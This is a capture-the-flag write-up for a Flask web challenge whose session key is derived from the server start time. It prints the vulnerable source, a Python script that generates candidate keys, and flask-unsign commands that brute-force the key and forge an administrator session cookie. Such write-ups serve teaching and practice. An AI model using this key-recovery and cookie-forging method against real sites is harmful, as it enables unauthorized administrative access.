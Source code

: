 

http://chal.competitivecyber.club:9999/

### Solution ###

We are given the source code of the website:

```python
#!/usr/bin/env python3
from flask import Flask, request, render_template, jsonify, abort, redirect, session
import uuid
import os
from datetime import datetime, timedelta
import hashlib
app = Flask(__name__)
server_start_time = datetime.now()
server_start_str = server_start_time.strftime('%Y%m%d%H%M%S')
secure_key = hashlib.sha256(f'secret_key_{server_start_str}'.encode()).hexdigest()
app.secret_key = secure_key
app.config['PERMANENT_SESSION_LIFETIME'] = timedelta(seconds=300)
flag = os.environ.get('FLAG', "flag{this_is_a_fake_flag}")
secret = uuid.UUID('31333337-1337-1337-1337-133713371337')
def is_safe_username(username):
    """Check if the username is alphanumeric and less than 20 characters."""
    return username.isalnum() and len(username) < 20
@app.route('/', methods=['GET', 'POST'])
def main():
    """Handle the main page where the user submits their username."""
    if request.method == 'GET':
        return render_template('index.html')
    elif request.method == 'POST':
        username = request.values['username']
        password = request.values['password']
        if not is_safe_username(username):
            return render_template('index.html', error='Invalid username')
        if not password:
            return render_template('index.html', error='Invalid password')
        if username.lower().startswith('admin'):
            return render_template('index.html', error='Don\'t try to impersonate administrator!')
        if not username or not password:
            return render_template('index.html', error='Invalid username or password')
        uid = uuid.uuid5(secret, username)
        session['username'] = username
        session['uid'] = str(uid)
        return redirect(f'/user/{uid}')
@app.route('/user/<uid>')
def user_page(uid):
    """Display the user's session page based on their UUID."""
    try:
        uid = uuid.UUID(uid)
    except ValueError:
        abort(404)
    session['is_admin'] = False
    return 'Welcome Guest! Sadly, you are not admin and cannot view the flag.'
@app.route('/admin')
def admin_page():
    """Display the admin page if the user is an admin."""
    if session.get('is_admin') and uuid.uuid5(secret, 'administrator') and session.get('username') == 'administrator':
        return flag
    else:
        abort(401)
@app.route('/status')
def status():
    current_time = datetime.now()
    uptime = current_time - server_start_time
    formatted_uptime = str(uptime).split('.')[0]
    formatted_current_time = current_time.strftime('%Y-%m-%d %H:%M:%S')
    status_content = f"""Server uptime: {formatted_uptime}<br>
    Server time: {formatted_current_time}
    """
    return status_content
if __name__ == '__main__':
    app.run("0.0.0.0", port=9999)
```
After taking a look at the code we can see that we need to become admin to get the flag.
The authentication mechanism is quite common it depends of flask session tokens.
We can also notice the creation of the key to sign these tokens.
```
server_start_time = datetime.now()
server_start_str = server_start_time.strftime('%Y%m%d%H%M%S')
secure_key = hashlib.sha256(f'secret_key_{server_start_str}'.encode()).hexdigest()
app.secret_key = secure_key
```
The key depends on the time the server was started.
We are also given a /status endpoint which gives us the difference between the current time and the time between the server's starting time however when i solved the challenge i totally missed this endpoint and decided to use a bruteforce approach.
As the server was restated every 10 minute my bruteforce approach worked.
The idea is to create a wordlist of all the keys possible from my current time we keep subtracting a number and writing it into a file.
Here is my exploit to do so:
```python
from datetime import datetime, timedelta
import hashlib

server_start_time = 20240921183020 # This was my current time when i solved the challenge you can change it to your current time

for i in range (0,10**4):
  server_start_str = server_start_time - i
  secure_key = hashlib.sha256(f'secret_key_{server_start_str}'.encode()).hexdigest()
  f = open('hash-time-wordlist.txt','a')
  f.write(secure_key+'\n')
  f.close()
```

This code creates a wordlist which we can use to bruteforce the cookie for secret using flask-usign:
```bash
flask-unsign --unsign --no-literal-eval --wordlist hash-time-wordlist.txt -c eyJ1aWQiOiJmNmVlODM5ZS02OWViLTVmMmItODFkZS1hOGZkNWY3ODQ4MDEiLCJ1c2VybmFtZSI6ImFzZCJ9.Zu8Q_g.lmsoSdhv5xXrTdLaVXf7uKb0uoA

[*] Session decodes to: {'uid': 'f6ee839e-69eb-5f2b-81de-a8fd5f784801', 'username': 'asd'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 128 attempts1307a80300c7
b'512e21c1f512b862e6784447f626474f5ff722d6e9b0d89da73c3f17de248cdf'
```
This gives us the secret we need now we can sign a token and get the flag.
```bash
flask-unsign --sign --cookie "{'is_admin': True, 'uid': '02ec19dc-bb01-5942-a640-7099cda78081', 'username': 'administrator'}" --secret '512e21c1f512b862e6784447f626474f5ff722d6e9b0d89da73c3f17de248cdf'

eyJpc19hZG1pbiI6dHJ1ZSwidWlkIjoiMDJlYzE5ZGMtYmIwMS01OTQyLWE2NDAtNzA5OWNkYTc4MDgxIiwidXNlcm5hbWUiOiJhZG1pbmlzdHJhdG9yIn0.ZvDtxA.7HytpWHlG4kE9S-w3Ib7fStZZpI
```




![[Pasted image 20240926165933.png]]


- [https://blog.paradoxis.nl/defeating-flasks-session-management-65706ba9d3ce](https://blog.paradoxis.nl/defeating-flasks-session-management-65706ba9d3ce)




